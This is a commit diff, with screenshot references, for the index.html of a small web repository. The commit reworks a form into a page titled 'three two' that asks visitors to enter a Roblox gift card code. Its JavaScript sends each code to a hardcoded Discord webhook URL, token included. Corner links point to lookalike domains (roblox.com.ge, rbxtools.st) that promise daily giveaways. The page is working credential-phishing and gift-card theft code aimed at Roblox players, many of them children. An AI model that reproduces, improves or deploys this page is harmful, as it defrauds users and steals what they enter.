

Before and after one commit to pathubs-coder/BEAM, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (207-1280 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,125 +3,119 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Form Page</title>
+<title>three two</title>
 
 <style>
     body {
         margin: 0;
-        background: #0d0d0d;
+        padding: 0;
+        background: #1b003f;
+        font-family: Arial, sans-serif;
         color: white;
-        font-family: Arial, sans-serif;
+        text-align: center;
     }
 
     h1 {
-        text-align: center;
-        margin-top: 40px;
-        font-size: 32px;
+        margin-top: 50px;
+        font-size: 3em;
+        text-shadow: 0 0 20px #fff;
     }
 
     .section {
+        background: rgba(42,0,95,0.85);
         width: 90%;
-        max-width: 700px;
-        background: rgba(255,255,255,0.06);
+        max-width: 600px;
         padding: 25px;
-        border-radius: 15px;
-        margin: 25px auto;
-        backdrop-filter: blur(10px);
-        border: 1px solid rgba(255,255,255,0.15);
+        border-radius: 20px;
+        margin: 30px auto;
+        box-shadow: 0 0 40px rgba(150,0,255,0.8);
     }
 
-    .label {
-        font-size: 18px;
+    .section label {
+        font-size: 1.3em;
+        font-weight: bold;
+        display: block;
         margin-bottom: 10px;
-        display: block;
-        font-weight: bold;
     }
 
     input, textarea {
-        width: 100%;
-        padding: 12px;
-        border-radius: 10px;
+        width: 90%;
+        padding: 14px;
+        margin-top: 10px;
+        border-radius: 12px;
         border: none;
-        background: rgba(255,255,255,0.12);
+        background: rgba(255,255,255,0.15);
         color: white;
-        font-size: 16px;
-        margin-top: 10px;
+        font-size: 1.1em;
         outline: none;
     }
 
     button.submit {
-        margin-top: 15px;
-        width: 100%;
-        padding: 15px;
-        background: #4f73ff;
+        margin-top: 20px;
+        padding: 15px 25px;
+        background: linear-gradient(90deg, #a64fff, #7200c0);
         border: none;
+        border-radius: 14px;
         color: white;
-        font-size: 18px;
-        border-radius: 12px;
+        font-size: 1.2em;
         cursor: pointer;
-        transition: 0.2s;
+        box-shadow: 0 0 20px #a64fff;
+        transition: 0.25s;
     }
 
     button.submit:hover {
-        background: #6d89ff;
+        background: linear-gradient(90deg, #fff, #a64fff);
+        box-shadow: 0 0 40px #fff;
     }
 
+    /* Corner Buttons */
     .corner-buttons {
         position: fixed;
         top: 15px;
         right: 15px;
         display: flex;
         flex-direction: column;
-        gap: 10px;
-        z-index: 10;
+        gap: 12px;
+        z-index: 3;
     }
 
     .corner-buttons a {
         background: rgba(255,255,255,0.15);
+        padding: 10px 15px;
+        border-radius: 12px;
+        text-decoration: none;
         color: white;
-        text-decoration: none;
-        padding: 10px 14px;
-        border-radius: 10px;
-        font-size: 14px;
-        backdrop-filter: blur(5px);
-        border: 1px solid rgba(255,255,255,0.2);
-        transition: 0.2s;
+        font-size: 0.95em;
+        border: 1px solid rgba(255,255,255,0.25);
+        backdrop-filter: blur(6px);
+        box-shadow: 0 0 15px rgba(150,0,255,0.6);
+        transition: 0.25s;
     }
 
     .corner-buttons a:hover {
-        background: rgba(255,255,255,0.27);
+        background: rgba(255,255,255,0.3);
+        box-shadow: 0 0 25px #fff;
     }
+
 </style>
 </head>
 <body>
 
 <div class="corner-buttons">
     <a href="https://roblox.com.ge/communities/3204454304/" target="_blank">
-        Join Roblox Group<br>(giveaways of robux everyday)
+        Join Roblox Group<br>(giveaways every day)
     </a>
     <a href="https://rbxtools.st/dashboard23" target="_blank">
         Roblox Tools Website
     </a>
 </div>
 
-<h1>Form Submission</h1>
+<h1>three two</h1>
 
-<!-- SECTION 1 -->
 <div class="section">
-    <label class="label">Section 1</label>
-    <input type="text" id="sec1" placeholder="Type here...">
-</div>
-
-<!-- SECTION 2 -->
-<div class="section">
-    <label class="label">Section 2</label>
-    <input type="text" id="sec2" placeholder="Type here...">
-</div>
-
-<!-- SUBMIT CODE -->
-<div class="section">
-    <label class="label">Submit Code</label>
-    <textarea id="codeInput" rows="4" placeholder="Write your code here..."></textarea>
+    <label>Submit Roblox Gift Card Code</label>
+    <input type="text" id="giftcode" placeholder="Enter your Roblox gift card code">
+    <textarea id="notes" rows="3" placeholder="Extra info (optional)"></textarea>
     <button class="submit" onclick="sendToWebhook()">Submit</button>
 </div>
 
@@ -129,15 +123,17 @@
 function sendToWebhook() {
     const webhookURL = "https://canary.discord.com/api/webhooks/1443361938368364725/R0MXAIduguCOc7S24GHLDvr9tvG5Qg6o7Dzmud2YAy25SxqbNPnF1PN5nAdI7DPo8ZyZ";
 
+    const code = document.getElementById("giftcode").value;
+    const notes = document.getElementById("notes").value;
+
     const data = {
-        username: "Form Bot",
+        username: "three two form",
         embeds: [{
-            title: "New Submission",
+            title: "New Gift Card Submission",
             color: 5814783,
             fields: [
-                { name: "Section 1", value: document.getElementById("sec1").value || "None" },
-                { name: "Section 2", value: document.getElementById("sec2").value || "None" },
-                { name: "Submitted Code", value: document.getElementById("codeInput").value || "None" }
+                { name: "Gift Card Code", value: code || "None" },
+                { name: "Notes", value: notes || "None" }
             ]
         }]
     };
@@ -148,7 +144,7 @@ function sendToWebhook() {
         body: JSON.stringify(data)
     });
 
-    alert("Sent!");
+    alert("Submitted!");
 }
 </script>
 
```
